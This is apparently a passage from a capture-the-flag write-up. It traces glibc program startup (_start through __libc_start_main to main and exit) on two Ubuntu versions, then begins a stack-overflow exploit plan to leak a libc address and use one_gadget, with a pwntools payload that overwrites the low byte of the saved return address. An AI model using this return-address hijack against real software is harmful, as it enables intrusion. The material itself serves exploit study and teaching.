     ### Overall, the sequence is:
    ```bash!
    _start → 0x0000555555555080
    __libc_start_main+123 → 0x00007ffff7db8e3b
    __libc_start_call_main+126 → 0x00007ffff7db8d8e
    ```
    ```bash!
    _start
    ...
    _start+31
    ↓
        __libc_start_main
        ...
        __libc_start_main+123
        ↓
            __libc_start_call_main
            ...
            __libc_start_call_main+126
            ↓
                main
                ...
            __libc_start_call_main+128
            __libc_start_call_main+130
            ↓
                exit
    ```

* <font color="FF0000">**`For Ubuntu 20.04 &　GLIBC 2.31` - back to `__libc_start_main+236`**</font>
Whole processes are almost the same as above, just the sequence is different

    ### Overall, the sequence is:
    ```bash!
    _start
    ...
    _start+40
    ↓
        __libc_start_main
        ...
        __libc_start_main+241
        ↓
            main
            ...
        __libc_start_main+243
        __libc_start_main+245
        ↓
            exit
    ```
    ![](https://imgur.com/kemHGjG.png)


#### Exploit - leak `libc` address + one_gadget
<font color="FF0000">Use Ubuntu 20.04 that the same as remote server</font>
1. Try to control `$rip` and return to beginning
We can observe stack at the end of `main` function. It'll always return to `__libc_start_main+243`. Therefore, we can padding garbage bytes and overlap the last byte of `$rip`.
![](https://imgur.com/qwhZ1qq.png)
    ```python!
    payload = p64(0) * 3 + int.to_bytes(124, 1, 'little')
    ```
    According to the derivation of last section, we should return to `__libc_start_main+236`(the address is `0x7ffff7df007c` for temp) and the address of `__libc_start_main+243` is `0x7ffff7df0083`(temp), so that we just modify the last bytes → $0x73=124$